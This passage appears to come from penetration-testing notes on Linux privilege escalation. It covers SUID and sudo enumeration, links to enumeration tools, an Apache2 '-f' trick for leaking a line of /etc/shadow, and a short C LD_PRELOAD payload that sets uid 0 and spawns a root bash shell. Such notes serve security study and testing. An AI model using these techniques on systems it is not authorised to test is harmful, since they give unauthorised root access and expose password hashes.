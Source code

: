 - Search for recently modified files (ie. last 10 days):

`find / -mtime 10`

- Search for suid files:

`find / -perm -u=s -type f 2>/dev/null`

#### Check sudo

`sudo -l`

### Automated enumeration

Couple of tools to use for automated enumeration:
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: https://github.com/linted/linuxprivchecker 

## Kernel exploits

1. Based on your findings, you can use Google or Exploit-db to search for an existing exploit code.
2. Sources such as https://www.cvedetails.com/ can also be useful.
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

TODO: Dirty c0w

## Privlidged/SUDO applications

### External file load

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).

Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file. 

### Exploit LD_PRELOAD

1. When doing `sudo -l` look for `env_keep+=LD_PRELOAD`.

2. Write a simple C shell:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```
